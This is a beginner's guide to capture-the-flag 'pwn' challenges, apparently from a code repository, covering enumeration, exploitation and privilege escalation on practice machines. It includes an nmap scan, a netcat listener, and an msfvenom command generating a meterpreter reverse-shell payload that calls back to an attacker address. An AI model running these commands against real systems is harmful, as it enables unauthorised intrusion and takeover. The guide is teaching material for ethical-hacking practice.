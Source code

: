 # Introduction
A beginner's guide to Pwn Challenges

Pwning is a term derived from gaming, referring to dominating or defeating someone or something. In cybersecurity, pwning refers to completely hacking a machine, typically upto the root level.<br/>
These challenges demand that a hacker have knowledge on computer systems and how to exploit various flaws in the security system such as security misconfigurations, usage of outdated programs and improper control of access. These types of challenges provide a variety of virtual machines to practice various paradigms and principles of Ethical Hacking and Penetration testing.

These machines can be pwned by following the basic steps of Ethical Hacking: <br/>
1. Enumeration
2. Exploitation
3. Privilege Escalation

## Enumeration
This step is probably the most crucial step and will determine the difficulty of the rest of the challenge to come. It primarily involves scanning a given server or a machine for open ports and finding out information about thr services running on these ports.<br/>

This can be achieved through the use of various tools, the most popular one being **nmap**. <br/>
A command in nmap would look something like this: <br/>
```bash
nmap -v -sT 10.10.2.144
```
<br/>

This will scan the 1000 most used ports on the machine and run default scripts on each port. This could output something as follows<br/>
<br/>
![Nmap Scan](https://media.geeksforgeeks.org/wp-content/uploads/20220704165316/connectss.jpg)

<br/>
After this we explore the programs running on various ports, searching for different types of security flaws that can be exploited in order to gain access to the machine.

## Exploitation
Exploitation refers to exploiting the vulnerabilities found through enumeration. This can usually be found through **known vulnerabilities (CVEs)** of the components running on the machine.<br/>
</br>
With respect to pwnable machines, these typically involve some form of credential disclosure or an RCE (Remote Code Execution) vulnerability which gives access to a reverse shell, allowing us to directly run code on the machine. Vulnerabilities can also take the form of malicious file uploads, which allow the hacker to upload a malicious file which will be run on the target machine, providing access to the reverse shell on the machine.

Some tools that can be used for exploitation include the **Metasploit Framework**, or **msfvenom** which is a tool for generating malicious payloads.


![Metasploit Framework](https://www.imperva.com/learn/wp-content/uploads/sites/13/2022/04/Screen-Shot-2022-04-03-at-14.41.09.png)

Tools like **netcat** allow us to listen for connection from machines, allowing the spawning of a reverse shell. A netcat command looks like this:<br/>
```console
netcat -lvnp 4444
``` 


Tools like msfvenom can be used to generate malicious payloads that allow the hacker to run various types of shells like **meterpreter**, standard **reverse tcp** or **bind shells** and many more. <br/>
```console 
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.10.123.234 LPORT=4444 -f out > shell.out
```

The above command generates a **meterpreter** shell for linux distributions based on the x86 architecture. This will be uploaded to the target machine, which will allow us to intercept the reverse shell using the metasploit framework. From here, if possible we can extract the user credentials of the machine, allowing us to connect to the machine via **ssh**.

After this step, in the context of CTFs the hacker can now find the user flag.


## Privilege Escalation
Privilege Escalation refers to the act of elevating privileges after gaining access, from a standard user to root. Gaining root privileges allows a hacker to completely take control of the system, extract any type of data or modify the system in any way.

The first step of privilege escalation is to identify what scripts can be run by a standard user with root privileges. Usually these scripts will also allow some type of code execution.
This can be achieved by using the following command:

```bash
sudo -l
```

This is the most ambiguous part of the hacking process, as there are infinetly many ways to escalate privileges from a standard user to root. However, some Privilege Escalation vectors can be automatically found using tools like **linpeas**.

If you are using the metasploit framework to gain access to the machine through a meterpreter shell, we can also try and use the `getsystem` command to try some standard privilege escalation exploits.

![](https://tbhaxor.com/content/images/2021/08/image-66.png)

Once you escalate your privileges, the challenge is complete, because all files are accessible and the system is said to be completely pwned.
